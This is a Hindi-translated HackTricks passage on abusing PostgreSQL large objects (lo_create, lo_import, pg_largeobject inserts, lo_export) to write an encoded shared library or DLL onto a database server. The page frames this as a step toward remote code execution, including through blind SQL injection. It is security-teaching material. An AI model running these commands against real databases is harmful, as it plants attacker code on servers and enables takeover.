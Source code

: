 ```bash
split -b 2048 your_binary
```

यह आपके बाइनरी फाइल को 2KB के टुकड़ों में विभाजित कर देगा।

एक बार जब आपके पास ये टुकड़े हों, तो आपको उन्हें PostgreSQL डेटाबेस में डालने के लिए निम्नलिखित कमांड्स का उपयोग करना होगा:

```sql
SELECT lo_create(0);
```

यह एक नया LOID बनाएगा।

```sql
INSERT INTO pg_largeobject (loid, pageno, data) VALUES (12345, 0, decode('your_hex_encoded_chunk', 'hex'));
```

यह आपके चंक को बनाए गए LOID के साथ डेटाबेस में डालेगा। आपको प्रत्येक चंक के लिए `pageno` को बढ़ाना होगा।

अंत में, आप निम्नलिखित कमांड का उपयोग करके डेटाबेस से फाइल को वापस निकाल सकते हैं:

```sql
SELECT lo_export(12345, '/tmp/your_binary');
```

यह डेटाबेस से फाइल को फाइल सिस्टम में वापस निकालेगा।
```bash
split -b 2048 pg_exec.so #This will create files of size 2KB
```
आपके द्वारा बनाई गई प्रत्येक फाइल को Base64 या Hex में एन्कोड करने के लिए आप इस्तेमाल कर सकते हैं:
```bash
base64 -w 0 <Chunk_file> #Encoded in 1 line
xxd -ps -c 99999999999 <Chunk_file> #Encoded in 1 line
```
{% hint style="info" %}
इसका फायदा उठाते समय याद रखें कि आपको **2KB के स्पष्ट-पाठ बाइट्स के चंक्स** भेजने होंगे (2KB के base64 या hex encoded बाइट्स के नहीं)। यदि आप इसे स्वचालित करने की कोशिश करते हैं, तो **hex encoded** फाइल का आकार **दोगुना** होता है (फिर आपको प्रत्येक चंक के लिए 4KB का encoded डेटा भेजना होगा) और **base64** encoded फाइल का आकार `ceil(n / 3) * 4` होता है।
{% endhint %}

इस प्रक्रिया को डीबग करते समय आप बनाए गए बड़े ऑब्जेक्ट्स की सामग्री देख सकते हैं:
```sql
select loid, pageno, encode(data, 'escape') from pg_largeobject;
```
# lo\_creat और Base64 का उपयोग करना

सबसे पहले, हमें एक LOID बनाने की आवश्यकता है जहां बाइनरी डेटा को सहेजा जाएगा:
```sql
SELECT lo_creat(-1);       -- returns OID of new, empty large object
SELECT lo_create(173454);   -- attempts to create large object with OID 43213
```
यदि आप **Blind SQLinjection** का दुरुपयोग कर रहे हैं, तो आप `lo_create` का उपयोग **निश्चित LOID** के साथ करने में अधिक रुचि रखेंगे ताकि आप **जान सकें कि** आपको **कहाँ** **सामग्री** **अपलोड** करनी है।\
यह भी ध्यान दें कि कोई सिंटैक्स त्रुटि नहीं है, फंक्शन्स `lo_creat` और `lo_create` हैं।

LOID का उपयोग `pg_largeobject` तालिका में ऑब्जेक्ट की पहचान के लिए किया जाता है। `pg_largeobject` तालिका में 2KB के आकार के चंक्स डालने के लिए निम्नलिखित का उपयोग किया जा सकता है:
```sql
INSERT INTO pg_largeobject (loid, pageno, data) values (173454, 0, decode('<B64 chunk1>', 'base64'));
INSERT INTO pg_largeobject (loid, pageno, data) values (173454, 1, decode('<B64 chunk2>', 'base64'));
INSERT INTO pg_largeobject (loid, pageno, data) values (173454, 3, decode('<B64 chunk2>', 'base64'));
```
अंत में आप फाइल को फाइल-सिस्टम में निर्यात कर सकते हैं (इस उदाहरण के दौरान प्रयुक्त LOID `173454` था):
```sql
SELECT lo_export(173454, '/tmp/pg_exec.so');
```
{% hint style="info" %}
नवीनतम postgres संस्करणों में आपको किसी भी पथ का संकेत दिए बिना **extensions अपलोड करने की आवश्यकता हो सकती है**। [**अधिक जानकारी के लिए यह पढ़ें**।](rce-with-postgresql-extensions.md#rce-in-newest-prostgres-versions)
{% endhint %}

आपको निर्यात करने के बाद बनाई गई बड़ी ऑब्जेक्ट को हटाने में रुचि हो सकती है:
```sql
SELECT lo_unlink(173454);  -- deletes large object with OID 173454
```
# lo_import और Hex का उपयोग करना

इस परिदृश्य में lo_import का उपयोग एक बड़ी ऑब्जेक्ट ऑब्जेक्ट बनाने के लिए किया जाएगा। सौभाग्य से इस मामले में आप LOID का चयन कर सकते हैं (और नहीं भी कर सकते) जिसे आप उपयोग करना चाहेंगे:
```sql
select lo_import('C:\\Windows\\System32\\drivers\\etc\\hosts');
select lo_import('C:\\Windows\\System32\\drivers\\etc\\hosts', 173454);
```
ऑब्जेक्ट बनाने के बाद आप प्रत्येक पेज पर डेटा डालना शुरू कर सकते हैं (याद रखें, आपको 2KB के चंक्स में डेटा डालना होगा):
```sql
update pg_largeobject set data=decode('<HEX>', 'hex') where loid=173454 and pageno=0;
update pg_largeobject set data=decode('<HEX>', 'hex') where loid=173454 and pageno=1;
update pg_largeobject set data=decode('<HEX>', 'hex') where loid=173454 and pageno=2;
update pg_largeobject set data=decode('<HEX>', 'hex') where loid=173454 and pageno=3;
```
HEX केवल हेक्स होना चाहिए (बिना `0x` या `\x` के), उदाहरण:
```sql
update pg_largeobject set data=decode('68656c6c6f', 'hex') where loid=173454 and pageno=0;
```
अंत में, डेटा को एक फाइल में निर्यात करें और बड़े ऑब्जेक्ट को हटा दें:
```sql
select lo_export(173454, 'C:\\path\to\pg_extension.dll');
select lo_unlink(173454);  -- deletes large object with OID 173454
```
{% hint style="info" %}
नवीनतम संस्करणों में आपको **एक्सटेंशन्स को किसी भी पथ का संकेत दिए बिना अपलोड करना पड़ सकता है**. [**अधिक जानकारी के लिए यह पढ़ें**.](rce-with-postgresql-extensions.md#rce-in-newest-prostgres-versions)
{% endhint %}

# सीमाएँ

PostgreSQL में बड़ी ऑब्जेक्ट्स के दस्तावेज़ को पढ़ने के बाद, हम पता लगा सकते हैं कि **बड़ी ऑब्जेक्ट्स में ACL हो सकता है** (एक्सेस कंट्रोल लिस्ट). यह संभव है कि **नई बड़ी ऑब्जेक्ट्स को कॉन्फ़िगर किया जा सकता है** ताकि आपका यूज़र **पर्याप्त अधिकार नहीं रखता हो** उन्हें पढ़ने के लिए, भले ही वे आपके यूज़र द्वारा बनाए गए हों.

हालांकि, हो सकता है कि **पुरानी ऑब्जेक्ट में एक ACL हो जो वर्तमान यूज़र को इसे पढ़ने की अनुमति देता हो**, तब हम उस ऑब्जेक्ट की सामग्री को बाहर निकाल सकते हैं.


<details>

<summary><strong>AWS हैकिंग सीखें शून्य से लेकर हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप चाहते हैं कि आपकी **कंपनी का विज्ञापन HackTricks में दिखाई दे** या **HackTricks को PDF में डाउनलोड करें** तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग प्राप्त करें**](https://peass.creator-spring.com)
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा एक्सक्लूसिव [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह
* 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) में **शामिल हों** या [**telegram group**](https://t.me/peass) में या **Twitter** 🐦 पर मुझे **फॉलो** करें [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **HackTricks** के [**github repos**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) में PRs सबमिट करके अपनी हैकिंग ट्रिक्स साझा करें.

</details>
